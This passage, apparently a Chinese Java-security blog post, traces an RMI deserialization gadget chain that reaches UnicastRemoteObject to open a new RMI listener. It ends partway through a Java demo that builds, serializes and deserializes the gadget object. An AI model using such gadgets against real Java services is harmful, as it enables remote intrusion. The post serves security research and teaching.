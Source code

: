 ```yaml
---
layout: mypost
title: "记录 RMI 引出的 Gadgets"
categories: [Java安全]
---
```


## 前言

好久不见，在“RMI 反序列化 Attack”一文，最后说到要去记录一下 RMI 引出的 Gadgets 以及 JEP 290 的绕过方式，它来了。这篇文章先来记录一下 RMI 引出的两条 Gadgets。

## 第一条

这一条 Gadget 说白了就是利用一个反序列化的入口点去新开启了一个 RMI 的 Server 端，后续可以使用之前提到的攻击 Server 端的方式去打它，也就是 Ysoserial 中 ysoserial.exploit.JRMPClient 这个 Payload。

既然是去新开启了一个 RMI 的 Server 端，也就是对应着之前文章中看到的这一行代码：`HelloRemoteObject helloRemoteObject = new HelloRemoteObject();`，其中具体每一步的实现早就跟过了，这里不在赘述，将里面最关键的一个断点记录如下-->

![alt text](image-399.png)

从上图的代码往后开始，就是一路到 UnicastServerRef 类的 exportObject 方法、创建 stub（ServerStubs）、启动 socket、发布 Target等一套标准的创建 Server 端的流程。那就从上图中的代码再向上跟，看看是否可以跟到一个 readObject，一层一层去查看它的方法调用-->

![alt text](image-400.png)

然后再看`public static Remote exportObject(Remote obj, int port)`的方法调用-->

![alt text](image-401.png)

再看`private void reexport() throws RemoteException`的方法调用-->

![alt text](image-402.png)

最后成功的跟到了一处 readObject，整条链子就已经 END 了，其实只需要反射去调用 UnicastRemoteObject 类的构造方法这一步即可，去写一个 Demo 如下-->

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;

public class JRMPListenerPayload {

    public static void main(String[] args) throws Exception {
        int port = 9999;
        Class<?> clazz = Class.forName("java.rmi.server.UnicastRemoteObject");
        Constructor<?> ctor = clazz.getDeclaredConstructor(int.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(port);
        serializeObject(instance);
        unSerializeObject("ser.bin");
        Thread.sleep(1000);
    }

    public static void serializeObject(Object obj) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        outputStream.writeObject(obj);
        outputStream.close();
    }

    public static Object unSerializeObject(String Filename) throws Exception {
```